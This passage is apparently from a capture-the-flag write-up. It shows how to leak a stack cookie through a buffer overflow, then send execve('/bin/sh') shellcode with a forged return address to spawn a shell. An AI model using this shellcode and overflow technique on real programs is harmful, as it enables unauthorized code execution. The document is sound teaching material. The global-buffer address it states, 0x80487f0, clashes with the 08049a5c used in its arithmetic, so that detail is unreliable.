 \documentclass[a4paper]{article}
\begin{document}
\begin{verbatim}
    p.sendline("A" * 129)
    res = p.recv()
    print res
    cookie = res[136:139]
\end{verbatim}
After the \texttt{readline} returns, we can see that it writes to a global buffer located at 0x80487f0. Now, with the cookie, all we need to do is conjure up the correct line to send next time. It turns out that the following does the trick:
\begin{verbatim}
    p.sendline("\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3
                \x50\x53\x89\xE1\x99\xB0\x0B\xCD\x80" + "A" * 104 + "\x00" +
                cookie + "\x00" * 4 + "\x68\x9a\x04\x08")
\end{verbatim}
What does it do though? The first $24$ bytes is to spawn a shell like before. The next $104$ A's are just to fill the buffer that has size $128$. The next four bytes is the \texttt{NULL} byte from the cookie that we had overwritten along with the cookie itself, so we haven't changed it. We fill a little more (to get to \texttt{\$ebpp}+0x4 and then finally we write the return address in \texttt{main}. In this case, the return address is the address to the global buffer plus $12$. This is because \texttt{sprintf} writes "His name is " before our input. This is exactly 12 bytes and with a little math in hex we get $08049a5c+c=08049a68$. \\
And just like that, when \texttt{main} returns, it returns to our shell spawning code!
\end{document}
